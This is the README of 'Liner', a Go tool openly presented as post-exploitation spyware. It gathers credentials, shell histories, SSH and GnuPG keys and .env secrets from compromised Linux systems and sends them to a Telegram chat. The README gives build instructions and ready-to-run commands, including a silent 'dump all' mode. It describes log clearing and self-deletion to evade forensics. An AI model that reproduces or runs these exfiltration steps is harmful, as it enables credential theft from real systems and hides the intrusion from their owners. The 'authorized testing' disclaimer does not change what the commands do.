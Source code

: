 ##  Liner - Post-Exploitation Data Exfiltration Tool via Telegram

**Liner** is a lightweight post-exploitation utility designed for rapid data collection and exfiltration from compromised Linux systems.  
It targets sensitive artifacts such as credentials, session tokens, private keys, and developer secrets, packaging and transferring them securely via Telegram bot API.

Built in Go, it supports silent operation, automated cleanup, and concurrent file transmission — making it ideal for stealthy, fast, and low-noise data exfiltration in red team operations or adversary simulation.

> ⚠️ **Disclaimer:** This tool is intended **strictly for educational and authorized security testing**. Unauthorized use is illegal and unethical.

---

### 🔧 Features

- Collects a wide range of sensitive files:
  - Stored credentials, shell histories, SSH keys, GnuPG data, API tokens, `.env` secrets, and more.
- Generates full directory tree structure for reconnaissance and documentation purposes.
- Compresses and optionally splits collected data for optimized transfer.
- Sends exfiltrated data directly to a specified Telegram chat using a bot token.
- Supports:
  - **Silent execution** (`--silent`) to suppress terminal output.
  - **Self-deletion** of the binary after successful execution to minimize footprint.
  - **Concurrent uploading** to accelerate data transmission under rate-limited environments.

---

### 📦 Requirements

Install required packages:

```bash
sudo apt install zip coreutils tree
```

Also required:

- A **Telegram bot token** ([@BotFather](https://t.me/BotFather))
- A **Telegram chat ID** (user or group)

---

### 🚀 Installation

```bash
git clone https://github.com/Nowafen/liner.git
cd liner
go build -v -o liner ./cmd

mv liner /usr/bin
chmod +x /usr/bin/liner

```

Verify installation:

```bash
liner --version
# Output: Liner version: x.x
```

---

### 🛠️ Usage

Basic syntax:

```bash
liner --mode Spyware --dump <TYPE> --token <TOKEN> --id <CHAT_ID> [options]
```

#### Required Flags

- `--mode Spyware` (only mode supported for now)
- `--dump`:  
  - `Credentials`: .git-credentials, keyrings  
  - `Password`: .bash_history, .zsh_history  
  - `Session`: .ssh, .gnupg  
  - `privateDATA`: *.env, *.pem, secrets  
  - `all`: Everything above
- `--token`: Your Telegram bot token
- `--id`: Telegram chat ID

#### Optional Flags

- `--silent`: Suppress all output
- `--version`: Show current version
- `--update`: Check for new version
- `--help`: Show help message

---

### 💡 Examples

```bash
sudo liner --mode Spyware --dump Password --token <BOT_TOKEN> --id <CHAT_ID>
```

```bash
sudo liner --mode Spyware --dump all --token <BOT_TOKEN> --id <CHAT_ID> --silent
```

---

### 🧠 How It Works

1. **Environment Validation:**  
   Ensures the target system is Linux-based before proceeding.

2. **Targeted Data Collection:**  
   Retrieves files based on the selected `--dump` category (e.g., credentials, sessions, secrets).

3. **Filesystem Mapping:**  
   Executes a recursive directory scan using `tree` to provide structural context.

4. **Data Packaging:**  
   Archives all collected data into `liner_data.zip`.  
   - If total size exceeds 48MB, archive is split into 25MB chunks for reliable transfer.

5. **Stealth Exfiltration via Telegram:**  
   Sends an initial message, directory map, and zipped payload to the configured Telegram chat using the bot API.

6. **Cleanup & Evasion:**  
   Removes temporary artifacts, clears relevant logs, and optionally self-deletes the binary to minimize forensic traces.

---

### ⚙️ Troubleshooting

- **Upload fails with `429 Too Many Requests` or times out?**  
  Telegram may be throttling API requests. Try reducing the upload concurrency in `core/telegram.go` or increase delay between sends.

- **No data received in chat?**  
  Ensure:
  - You are using a valid `--token` and `--id`
  - The specified `--dump` target contains data
  - Sufficient permissions (`sudo`) are granted

- **Split archive reassembly (receiver side):**

```bash
cat part_* > liner_data.zip
unzip liner_data.zip
```
---

### 👨‍💻 Contributing

Pull requests and issues are welcome. Let’s improve this project together.


### 📜 License

This project is **proprietary and closed-source**.  
All rights reserved © 2025 [MNM]  
Unauthorized copying, distribution, or modification of any part of this codebase is strictly prohibited.




##### Developed by [MNM]
##### Uploaded: July 2025

